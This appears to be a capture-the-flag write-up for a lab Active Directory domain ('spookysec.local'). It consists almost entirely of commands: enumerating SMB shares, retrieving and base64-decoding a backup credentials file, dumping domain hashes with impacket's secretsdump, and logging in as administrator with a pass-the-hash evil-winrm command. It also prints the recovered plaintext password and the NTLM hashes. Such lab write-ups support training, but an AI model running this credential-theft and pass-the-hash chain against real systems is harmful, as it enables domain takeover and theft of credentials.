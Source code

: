 ```
smbclient -U spookysec.local/svc-admin -L //10.10.90.103
```
![[list shares.png]]

```
smbclient -U spookysec.local/svc-admin //10.10.90.103/backup
```
![[connect to backup.png]]


```
get backup_credentials.txt
exit
cat backup_credentials.txt
```
![[get backup creds file.png]]


```
echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d
```
![[decode creds.png]]


```
backup@spookysec.local:backup2517860
```

```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:${passw2}@spookysec.local -dc-ip 10.10.90.103 | tee secretsdump.md
```

![[secretsdump start.png]]
![[secretsdump 1.png]]
![[secretsdump 2.png]]
![[secretsdump 3.png]]


**Notable Hashes**
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::

spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::

spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::

**Proofs**
```
evilwinrm -i 10.10.90.103 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```
![[flags.png]]


